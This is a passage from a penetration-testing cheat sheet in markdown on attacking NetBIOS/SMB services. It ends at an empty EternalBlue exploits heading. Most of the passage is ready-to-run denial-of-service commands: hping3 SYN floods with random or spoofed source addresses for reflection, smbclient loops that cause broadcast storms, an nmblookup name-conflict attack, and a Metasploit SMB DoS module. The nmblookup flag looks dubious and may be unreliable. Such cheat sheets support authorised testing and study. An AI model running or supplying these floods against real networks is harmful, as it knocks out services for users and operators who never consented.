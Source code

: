     ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### NetBIOS Broadcast Storm

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    while true; do echo "storm" | smbclient -M <broadcast_address>; done
    ```

    ```bash
    for i in {1..1000}; do echo "storm" | smbclient -M <broadcast_address>; done
    ```
* **Description:** Floods the network with broadcast messages, potentially causing a denial of service or overwhelming network resources.

#### Name Conflict DoS

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    nmblookup -A <target_ip> --conflict
    ```
* **Description:** Repeatedly causing name conflicts to prevent legitimate devices from registering their NetBIOS names, disrupting network communication.

#### NetBIOS Flooding Attack

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use auxiliary/dos/windows/smb/ms09_001_write
    ```
* **Description:** Overwhelm the NetBIOS Session Service with excessive requests, leading to denial of service.

### Exploits

#### MS17-010 (EternalBlue)

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]
